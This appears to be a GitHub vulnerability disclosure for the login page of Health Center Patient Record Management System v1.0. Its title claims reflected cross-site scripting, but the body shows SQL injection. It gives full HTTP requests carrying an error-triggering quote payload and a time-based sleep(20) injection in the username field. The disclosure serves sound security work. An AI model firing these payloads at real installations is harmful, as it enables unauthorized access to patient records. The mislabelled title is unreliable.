 # Health Center Patient Record Management System v1.0 has Cross-site scripting (reflected)

BUG_Author: wangte

Website source address:https://www.sourcecodester.com/php/11058/health-center-patient-record-management-system.html

Vulnerability File: /HCPMS/login.php

form-data parameter name="username" (POST), exists SQL injection vulnerability

Payload1:a'

```
POST /HCPMS/login.php HTTP/1.1
Host: localhost
Content-Length: 329
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx9y4jGcydZgVeJEQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/HCPMS/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=6fcav63hl60icb4n7tsvv0ns5k
Connection: close

------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="username"

a'
------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="password"

b
------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="login"


------WebKitFormBoundaryx9y4jGcydZgVeJEQ--

```

An error occurred in the sql statement

![image](https://github.com/2689469248/bug_report/blob/main/pictures/sql1.png)

Payload2:a'+(select*from(select(sleep(20)))a)+'

```
POST /HCPMS/login.php HTTP/1.1
Host: localhost
Content-Length: 365
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx9y4jGcydZgVeJEQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/HCPMS/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=6fcav63hl60icb4n7tsvv0ns5k
Connection: close

------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="username"

a'+(select*from(select(sleep(20)))a)+'
------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="password"

b
------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="login"


------WebKitFormBoundaryx9y4jGcydZgVeJEQ--

```

The server's response time is 20 seconds

![image](https://github.com/2689469248/bug_report/blob/main/pictures/sql2.png)

